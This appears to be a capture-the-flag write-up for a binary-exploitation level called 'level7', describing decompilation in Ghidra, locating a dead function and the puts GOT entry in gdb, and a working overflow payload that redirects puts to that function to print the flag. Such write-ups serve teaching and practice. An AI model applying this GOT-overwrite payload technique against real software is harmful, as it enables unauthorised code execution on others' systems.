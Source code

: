 ### Download binary
``scp -P4242 level7@192.168.31.170:/home/user/level7/level7 ~/Desktop/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

----

### Main function analysis (see sources)

We see that our flag is stored in a variable named c. We also see that there is a piece of dead code (the function m) that print our variable c. Our goal is to call this function. We will be able to do it by replacing the call to **puts** with a call to **m**. The binary call 2 argument, so we have to give it 2.

----

### Building the payload

Our goal is to do something like this

**Char to overflow + adress of puts** and **Adress of m**

first we need to find both adresses

`(gdb) info functions `
>0x080483c0  fgets@plt
[...]
0x080484f4  m

**Getting GOT adress range :**

``(gdb) info files``
>[...]
0x08049908 - 0x08049938 is .got.plt

**Let's find the function we want to overwrite, puts() :**

``(gdb) x/16wx 0x08049908``

>0x8049908 <_GLOBAL_OFFSET_TABLE_>:	0x0804983c	0x00000000	0x00000000	0x080483b6
[...]
0x8049928 <puts@got.plt>:	0x08048406	0x08048416	0x08048426	0x08048436
[...]

Now that we have our 2 adress we can build our final payload :

``$(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')``

----

#### Getting the flag

``./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')``
>5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1689839559

